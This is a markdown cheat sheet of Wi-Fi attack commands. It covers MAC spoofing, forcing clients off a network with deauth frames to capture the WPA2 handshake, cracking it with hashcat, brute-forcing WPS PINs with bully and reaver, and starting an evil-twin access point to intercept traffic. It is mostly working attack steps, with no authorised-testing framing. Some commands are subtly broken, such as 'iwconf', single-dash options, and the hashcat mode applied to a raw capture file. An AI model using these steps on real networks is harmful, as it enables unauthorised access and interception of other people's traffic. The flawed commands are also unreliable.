 # WiFi

## Monitor mode
Either:   
```
airmon-ng start wlan0
```

Or:  
```
ifconfig wlan0 down
iwconf wlan0 mode monitor
ifconfig wlan0 up
```


## Capture frames
`airodump-ng wlan0mon`

## Capture MAC addresses
To capture the MAC address of clients who have authenticated to the AP:  

`airodump-ng -c <channel> -a -bssid <bssid>`

Where:   
`<channel>` - The Channel that the AP is broadcasting on   
`<bssid>`   - The BSSID of the AP

## Spoof MAC address
Once a MAC address has been determined, the local MAC can be changed. First you need to take down the local adapter:

`ifconfig wlan0 down`

Then you can use `macchanger` to change the MAC address to match the one you captured:

`macchanger -m <mac> wlan0`

Finally, bring the interface back up:

`ifconfig wlan0 up`

## Attacking WPA2-PSK
WPA2-PSK is the most widely used protocol used for securing Wi-Fi, although WPA3 is starting to gain popularity.

To crack WPA2-PSK, the hash of the password must be captured and then cracked offline using a tool like `hashcat`. This passord hash can be captured by sniffing the network traffic until the client sends it to the AP, this can either be done stealthily by waiting or by forcing the client to disconnect from the AP.

The first step is to put the wireless adapter into [monitor mode](#monitor-mode) and then running:

`airodump-ng -bssid <BSSID> -c <channel> --write <file> wlan0mon`

where:   
`<BSSID>`    - The BSSID of the Target AP   
`<channel`   - The Channel the AP is transmitting on   
`<file>`     - A filename used to store the captured handshake   

### Forcing a client to reconnect
If you don't want to wait for a client to connect to capture the password hash, you can force an already connected client to disconnect from the AP. This will cause the client to reconnect, and you can quickly capture the hash:

`aireplay-ng -deauth 100 -a <BSSID> wlan0mon`

where:   
`-deauth 100` - Send 100 deauth frames to the AP   
`<BSSID>`     - The BSSID of the target AP

When the client reconnects, the four way handshake will be captured.

```
CH 11 ][ Elapsed:  3 hours 15 minutes  ][ 2023-02-05 10:27 ] [  WPA Handshake:  12:09:27:00:18:21
```

### Brute force
Now that you have the handshake, you can use a cracking program like `hashcat` to brute-force the password. This can either be done using a dictionary, or by iterating through a series of values.

`hashcat -m 16800 file.cap /user/share/dictionary/passwords.txt`



## Attacking WPS
WPS is a mechanism where a client can connect to an AP using a PIN, rather than a complex password. The PIN is made up of 8 digits, with the last digit being a checksum. With WPS 1.0, the first four are checked, and then the last 3 are checked separately. This gives 11,000 possible PINs. However with WPS 2.0, this has since been mitigated.

To get a list of APs with WPS, use `wash`:

`wash -i wlan0mon`

This will show a list like this:

|BSSID              |Ch |dBm  |WPS  |Lck  |Vendor    |ESSID                        |
|-------------------|---|-----|-----|-----|----------|-----------------------------|
|FF:FF:FF:FF:FF:FF  | 1 | -58 | 2.0 | No  | Unknown  | Business-Net                |
|FF:FF:FF:FF:FF:FF  | 1 | -54 | 2.0 | No  | Broadcom | Home                        |
|FF:FF:FF:FF:FF:FF  | 1 | -24 | 2.0 | No  | Broadcom | Home                        |
|FF:FF:FF:FF:FF:FF  | 1 | -48 | 2.0 | No  | Broadcom | Home                        |
|FF:FF:FF:FF:FF:FF  | 1 | -50 | 2.0 | Yes | Broadcom | OfficeJet 6950              |
|FF:FF:FF:FF:FF:FF  | 1 | -50 | 2.0 | No  | Unknown  | Apathy                      |
|FF:FF:FF:FF:FF:FF  | 1 | -50 | 1.0 | No  | Unknown  | Car                         |


Using the information from `wash` and `airodump-ng`, the PIN can be crute forced using either `bully` or `reaver`

### Bully

`bully wlan0mon -b <BSSID> -e <ESSID> -c <Channel>`

where:   
`<BSSID>`    - The BSSID of the AP
`<ESSID>`    - The ESSID of the client
`<Channel>`  - The channel that the AP is transmitting on

### Reaver

`reaver -i wlan0mon -b <BSSID> -vv`

where:   
`<BSSID>`    - The BSSID of the AP

## Evil Twin (MiTM)
`airbase-ng` turns a Wi-Fi adapter into an AP, broadcasting and accepting client connection. To make this possible, two network interfaces are required.

### Creating an AP
`airbase-ng -a <BSSID> --essid <ESSID> -c <Channel> wlan0mon`

where:   
`<BSSID>`    - The BSSID of the AP
`<ESSID>`    - The ESSID of the client
`<Channel>`  - The channel that the AP is transmitting on

### Bridge the connection
To allow internet traffic to flow through the rouge AP, a second network interface needs to be configured to allow traffic to seamlessly flow to any unsuspectingly connected clients.



